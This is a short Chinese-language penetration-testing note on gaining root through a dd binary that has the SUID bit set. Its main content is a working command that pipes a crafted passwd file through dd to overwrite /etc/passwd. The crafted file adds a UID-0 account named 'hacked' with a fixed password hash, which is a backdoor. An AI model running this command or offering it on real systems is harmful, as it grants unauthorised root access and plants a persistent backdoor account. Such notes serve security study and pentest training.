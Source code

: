 # dd

dd suid 提权思想：利用 s 权限写入内容覆盖系统文件，例如`etc/passwd`、`etc/sudoers`等

如果 `dd` 具有 s 权限，可使用如下命令获取 root 权限：
```
# 注意，覆盖passwd 文件后，当前用户 shell 可能失效，因此最好先备份一个 passwd
cp /etc/passwd . 
echo -e `root:*:0:0:System Administrator:/var/root:/bin/sh\nhacked:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash` | ./dd of=/etc/passwd # 注意必须是单引号
```
![](https://isecurityclub-1253463441.cos.ap-chengdu.myqcloud.com/dd-1.png)

